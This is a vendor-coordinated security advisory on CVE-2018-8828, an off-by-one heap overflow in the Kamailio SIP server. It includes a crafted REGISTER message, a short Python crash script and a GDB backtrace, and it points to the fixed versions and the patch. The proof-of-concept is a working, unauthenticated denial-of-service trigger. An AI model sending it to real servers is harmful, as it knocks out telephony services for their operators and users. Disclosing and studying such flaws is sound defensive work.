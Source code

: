 # Off-by-one heap overflow in Kamailio

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Fixed versions: Kamailio v5.1.2, v5.0.6 and v4.4.7
- References: CVE-2018-8828
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-05-kamailio-heap-overflow>
- Tested vulnerable versions: 5.1.1, 5.1.0, 5.0.0
- Timeline:
    - Report date: 2018-02-10
    - Kamailio confirmed issue: 2018-02-10
    - Kamailio patch: 2018-02-10
    - Kamailio release with patch: 2018-03-01
    - Enable Security advisory: 2018-03-19

## Description

A specially crafted REGISTER message with a malformed `branch` or `From tag` triggers an off-by-one heap overflow.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution.

## How to reproduce the issue

The following SIP message was used to reproduce the issue with a `From` header containing the `tag` that triggers the vulnerability:


```
REGISTER sip:localhost:5060 SIP/2.0
Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394
To: <sip:1@localhost:5060>
From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg
Call-ID: 8b113457-c6a6-456a-be68-606686d93c38
Contact: sip:1@127.0.0.1:53497
Max-Forwards: 70
CSeq: 10086 REGISTER
User-Agent: go SIP fuzzer/1
Content-Length: 0

```

We used this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

PROTO = "udp"
SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:localhost:5060 SIP/2.0\r\n" \
        "Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394\r\n" \
        "To: <sip:1@localhost:5060>\r\n" \
        "From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg\r\n" \
        "Call-ID: 8b113457-c6a6-456a-be68-606686d93c38\r\n" \
        "Contact: sip:1@127.0.0.1:53497\r\n" \
        "Max-Forwards: 70\r\n" \
        "CSeq: 10086 REGISTER\r\n" \
        "User-Agent: go SIP fuzzer/1\r\n" \
        "Content-Length: 0\r\n" \
        "\r\n"

    sock.sendall(msg)
```


Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

Both crashes produce a similar backtrace in GDB:

```
#0  0x00007f08c3f16428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007f08c3f1802a in __GI_abort () at abort.c:89
#2  0x0000000000669a6e in qm_debug_frag (qm=0x7f08ba615000, f=0x7f08ba8c70a8, file=0x7f08c0bba514 "tmx: tmx_pretran.c", line=250) at core/mem/q_malloc.c:147
#3  0x000000000066b49e in qm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:380
#4  0x00000000006758e8 in qm_shm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:1206
#5  0x00007f08c0baf879 in tmx_check_pretran (msg=0x7f08c37a3250) at tmx_pretran.c:250
#6  0x00007f08c0bac901 in t_precheck_trans (msg=0x7f08c37a3250) at tmx_mod.c:858
#7  0x00007f08c0bac939 in w_t_precheck_trans (msg=0x7f08c37a3250, p1=0x0, p2=0x0) at tmx_mod.c:869
#8  0x000000000047b0e4 in do_action (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1067
#9  0x0000000000487df1 in run_actions (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1565
#10 0x00000000004884a7 in run_actions_safe (h=0x7fff808f0860, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1633
#11 0x0000000000446725 in rval_get_int (h=0x7fff808f0860, msg=0x7f08c37a3250, i=0x7fff808efb44, rv=0x7f08c374e818, cache=0x0) at core/rvalue.c:912
#12 0x000000000044ae11 in rval_expr_eval_int (h=0x7fff808f0860, msg=0x7f08c37a3250, res=0x7fff808efb44, rve=0x7f08c374e810) at core/rvalue.c:1910
#13 0x000000000047aba7 in do_action (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1043
#14 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1565
#15 0x000000000047b050 in do_action (h=0x7fff808f0860, a=0x7f08c374f650, msg=0x7f08c37a3250) at core/action.c:1058
#16 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374b610, msg=0x7f08c37a3250) at core/action.c:1565
#17 0x00000000004885b3 in run_top_route (a=0x7f08c374b610, msg=0x7f08c37a3250, c=0x0) at core/action.c:1654
#18 0x000000000059c7dc in receive_msg (
    buf=0xa48120 <buf> "REGISTER sip:127.0.0.1:5060 SIP/2.0\r\nVia: SIP/2.0/TCP 127.0.0.1:51315;branch=z340282366920938463463374607431768211455hG4bKecc-65715664045141690323692c170141183460469231731687303715884105859-4b6d-48dc-"..., len=608,
    rcv_info=0x7fff808f0c20) at core/receive.c:277
#19 0x00000000004a7b7c in udp_rcv_loop () at core/udp_server.c:554
#20 0x00000000004232d0 in main_loop () at main.c:1626
#21 0x000000000042a97a in main (argc=7, argv=0x7fff808f12d8) at main.c:2646
(gdb)
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/e1d8008a09d9390ebaf698abe8909e10dfec4097> or make use of a release that includes that patch (e.g. v5.1.2, v5.0.6 or v4.4.7).

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within hours of our report.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
